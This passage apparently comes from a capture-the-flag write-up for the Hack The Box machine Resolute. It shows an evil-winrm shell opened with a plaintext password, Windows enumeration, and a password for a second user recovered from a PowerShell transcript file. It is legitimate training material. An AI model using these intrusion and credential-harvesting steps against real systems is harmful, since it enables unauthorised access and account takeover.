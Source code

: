 ## Getting user-shell
Using [evil-winrm](https://github.com/Hackplayers/evil-winrm) we can login as the user melanie and get a shell.
```bash
root@silence:~# ruby evil-winrm.rb -i 10.10.10.169 -u melanie -p 'Welcome123!'

Evil-WinRM shell v2.3

Info: Establishing connection to remote endpoint

*Evil-WinRM* PS C:\Users\melanie\Documents>
```
We get a shell as user and can read user.txt.
```console
*Evil-WinRM* PS C:\Users\melanie\Desktop> type user.txt
0c3be***************************
```

## Privesc to ryan
Now that we have a shell as melanie, let us try to escalate our privileges.
### Enumeration as melanie
```console
*Evil-WinRM* PS C:\users> dir

    Directory: C:\users

Mode                LastWriteTime         Length Name
----                -------------         ------ ----
d-----        9/25/2019  10:43 AM                Administrator
d-----        12/4/2019   2:46 AM                melanie
d-r---       11/20/2016   6:39 PM                Public
d-----        9/27/2019   7:05 AM                ryan
```
Seems like ryan is the only other user on the system. Let us search for information on how to privesc to ryan.

```console
*Evil-WinRM* PS C:\> findstr /sp ryan *.txt
PSTranscripts\20191203\PowerShell_transcript.RESOLUTE.OJuoBGhU.20191203063201.txt: Username: MEGABANK\ryan
```
After a bit of searching around, I came across a Powershell Transcript file.
```console
*Evil-WinRM* PS C:\> type PSTranscripts\20191203\PowerShell_transcript.RESOLUTE.OJuoBGhU.20191203063201.txt
**********************
Windows PowerShell transcript start
Start time: 20191203063201
Username: MEGABANK\ryan
RunAs User: MEGABANK\ryan
[…]
**********************
Command start time: 20191203063515
**********************
PS>CommandInvocation(Invoke-Expression): "Invoke-Expression"
>> ParameterBinding(Invoke-Expression): name="Command"; value="cmd /c net use X: \\fs01\backups ryan Serv3r4Admin4cc123!
```
Seems like we have a possible password candidate for ryan.
